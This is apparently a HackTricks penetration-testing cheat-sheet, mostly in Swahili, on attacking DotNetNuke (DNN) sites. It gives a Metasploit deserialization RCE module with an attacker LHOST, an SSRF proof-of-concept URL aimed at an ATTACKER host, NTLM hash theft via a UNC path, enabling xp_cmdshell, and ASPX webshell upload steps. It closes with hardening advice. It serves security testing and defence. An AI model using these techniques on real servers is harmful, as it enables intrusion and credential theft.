 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Ikiwa unaingia kama **administrator** katika DNN ni rahisi kupata **RCE**, hata hivyo mbinu kadhaa za *unauthenticated* na *post-auth* zimechapishwa katika miaka michache iliyopita.  Cheat-sheet ifuatayo inakusanya primitives muhimu zaidi kwa kazi za mashambulizi na za kujihami.

---
## Tathmini ya Toleo na Mazingira

* Angalia kichwa cha jibu cha HTTP *X-DNN* – kwa kawaida kinadhihirisha toleo halisi la jukwaa.
* Mchawi wa usakinishaji unavuja toleo katika `/Install/Install.aspx?mode=install` (inapatikana kwenye usakinishaji wa zamani sana).
* `/API/PersonaBar/GetStatus` (9.x) inarudisha blob ya JSON inayojumuisha `"dnnVersion"` kwa watumiaji wenye haki za chini.
* Keki za kawaida utakazoziona kwenye mfano wa moja kwa moja:
* `.DOTNETNUKE` – tiketi ya uthibitishaji wa fomu za ASP.NET.
* `DNNPersonalization` – ina data ya profaili ya mtumiaji ya XML/serialized (toleo za zamani – angalia RCE hapa chini).

---
## Utekelezaji Usio na Uthibitisho

### 1. Cookie Deserialization RCE  (CVE-2017-9822 & follow-ups)
*Toleo lililoathiriwa ≤ 9.3.0-RC*

`DNNPersonalization` inachambuliwa kwenye kila ombi wakati mpangilio wa 404 wa ndani umewezeshwa.  XML iliyoundwa inaweza hivyo kusababisha mnyororo wa vifaa vya kiholela na utekelezaji wa msimbo.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Moduli inachagua kiotomatiki njia sahihi kwa toleo zilizorekebishwa lakini bado zina udhaifu (CVE-2018-15811/15812/18325/18326). Utekelezaji unafanya kazi **bila uthibitisho** kwenye 7.x–9.1.x na kwa akaunti ya *imehakikishwa* ya chini ya haki kwenye 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Toleo zilizoathirika < 9.13.8  –  Patch iliyotolewa Aprili 2025*

Kupita kwa suluhisho la zamani la `DnnImageHandler` kunamwezesha mshambuliaji kulazimisha seva kutoa **maombi ya GET yasiyo na mipaka** (semi-blind SSRF). Athari za vitendo:

* Skana ya bandari za ndani / ugunduzi wa huduma za metadata katika matumizi ya wingu.
* Fikia mwenyeji ambao vinginevyo vimefungwa kutoka kwa Mtandao.

Uthibitisho wa dhana (badilisha `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
The request is triggered in the background; monitor your listener for callbacks.

### 3. NTLM Hash Exposure via UNC Redirect  (CVE-2025-52488)
*Toleo lililoathiriwa 6.0.0 – 9.x (< 10.0.1)*

Maudhui yaliyoundwa kwa njia maalum yanaweza kufanya DNN ijitahidi kupata rasilimali kwa kutumia **UNC path** kama `\\attacker\share\img.png`. Windows itafanya mazungumzo ya NTLM kwa furaha, ikivuja hash za akaunti ya seva kwa mshambuliaji. Pandisha toleo hadi **10.0.1** au zima SMB ya nje kwenye firewall.

### 4. IP Filter Bypass  (CVE-2025-52487)
Ikiwa wasimamizi wanategemea *Host/IP Filters* kwa ulinzi wa lango la admin, fahamu kwamba toleo la kabla ya **10.0.1** linaweza kupitishwa kwa kubadilisha `X-Forwarded-For` katika hali ya reverse-proxy.

---
## Post-Authentication to RCE

### Via SQL console
Chini ya **`Settings → SQL`** dirisha la swali lililojengwa ndani linaruhusu utekelezaji dhidi ya hifadhidata ya tovuti.  Kwenye Microsoft SQL Server unaweza kuwezesha **`xp_cmdshell`** na kuanzisha amri:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Kupakia webshell ya ASPX
1. Nenda kwenye **`Settings → Security → More → More Security Settings`**.
2. Ongeza `aspx` (au `asp`) kwenye **Allowable File Extensions** na **Save**.
3. Tembelea **`/admin/file-management`** na upakie `shell.aspx`.
4. Ianzishe kwenye **`/Portals/0/shell.aspx`**.

---
## Kuinua Haki kwenye Windows
Mara tu utekelezaji wa msimbo unapoanzishwa kama **IIS AppPool\<Site>**, mbinu za kawaida za kuinua haki za Windows zinatumika. Ikiwa sanduku lina udhaifu unaweza kutumia:

* **PrintSpoofer** / **SpoolFool** kutumia *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** kutoroka *Service Accounts*.

---
## Mapendekezo ya Kuimarisha (Blue Team)

* **Sasisha** angalau **9.13.9** (inasahihisha SSRF bypass) au bora zaidi **10.0.1** (masuala ya IP filter & NTLM).
* Ondoa faili za ziada **`InstallWizard.aspx*`** baada ya usakinishaji.
* Zima SMB ya nje (bandari 445/139) egress.
* Lazimisha *Host Filters* kali kwenye proxy ya ukingo badala ya ndani ya DNN.
* Zuia ufikiaji wa `/API/RemoteContentProxy` ikiwa haijatumika.

## Marejeleo

* Metasploit `dnn_cookie_deserialization_rce` moduli ya hati – maelezo ya vitendo ya RCE isiyo na uthibitisho (GitHub).
* GitHub Security Advisory GHSA-3f7v-qx94-666m – 2025 SSRF bypass & taarifa za patch.
{{#include ../../banners/hacktricks-training.md}}
